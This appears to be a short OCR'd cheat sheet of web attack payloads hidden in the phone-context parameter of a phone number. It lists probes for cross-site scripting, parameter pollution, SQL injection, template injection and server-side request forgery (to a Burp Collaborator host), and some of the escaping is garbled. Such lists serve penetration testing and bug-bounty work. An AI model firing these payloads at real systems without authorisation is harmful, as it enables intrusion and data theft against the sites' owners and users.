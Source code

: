 For XSS:
+254704209482;phone-context=<script/>alert(1)<//script>

Parameter pollution:
+254xxxxx482;phone-context=&phone-context=+254704209482

SQLi:
+254704209482;phone-context='OR 1=1; --

Template Injection:
+254704209482;phone-context={{4*\4}}\[\[7\*7\]\]

SSRF:
+254704209482;phone-context=burpcollaborator.net